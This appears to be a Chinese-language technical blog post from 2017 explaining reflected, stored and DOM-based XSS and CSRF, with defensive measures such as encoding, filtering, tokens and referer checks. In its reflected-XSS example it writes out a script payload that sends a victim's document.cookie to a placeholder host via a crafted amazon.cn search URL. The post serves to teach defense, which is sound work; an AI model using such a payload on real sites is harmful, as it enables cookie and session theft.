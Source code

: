 ```yaml
---
title: 了解XSS/CSRF
categories:
  - it
tags:
  - xss
  - csrf
  - security
date: 2017-06-06 13:21:15
updated: 2017-06-06 13:21:15
---
```


## XSS攻击和防御
### XSS定义
跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### XSS攻击方式
#### 反射型
发出请求时，XSS代码出现在URL中（典型的特征：攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程像一次反射，故叫反射型XSS，也叫作"非持久型XSS“(Non-persistent XSS)
![反射XSS](./reflect_xss.png)

1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie
='+document.cookie</script>

#### 存储型
把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景：黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
#### DOM based XSS
也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

### XSS的危害
这些危害包括但不局限于：
盗取管理员或普通用户cookie、session；
读取、篡改、添加、删除敏感数据;
网站挂马；
非法转账；
控制受害者机器向其它网站发起攻击 等等

### XSS防御措施
- 编码：不能对用户所有输入保持原样对用户输入的数据写入HTML文档
  [HTML实体编码规则](http://www.w3school.com.cn/tags/html_ref_entities.html)
  避免直接对HTML Entity解码
  使用DOM Parse转换，校正不匹配对的DOM标签
- 过滤：把输入不合法的过滤掉，保持安全性
  移除用户上传的DOM属性，如onerror，onclick等
  移除用户上传的Style节点，script节点，iframe节点等
  在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


## CSRF攻击和防御

参考链接：[CSRF 详解与攻防实战](https://segmentfault.com/a/1190000006963312)

CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。 

http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该用户资料了。 

CSRF攻击的主要目的是让用户在不知情的情况下攻击自己已登录的一个系统，类似于钓鱼。如用户当前已经登录了邮箱，或bbs，同时用户又在使用另外一个，已经被你控制的站点，我们姑且叫它钓鱼网站。这个网站上面可能因为某个图片吸引你，你去点击一下，此时可能就会触发一个js的点击事件，构造一个bbs发帖的请求，去往你的bbs发帖，由于当前你的浏览器状态已经是登陆状态，所以session登陆cookie信息都会跟正常的请求一样，纯天然的利用当前的登陆状态，让用户在不知情的情况下，帮你发帖或干其他事情。

### CSRF防御
通过 referer、token 或者 验证码 来检测用户提交。
尽量不要在页面的链接中暴露用户隐私信息。
对于用户修改删除等操作最好都使用post操作 。
避免全站通用的cookie，严格设置cookie的域。
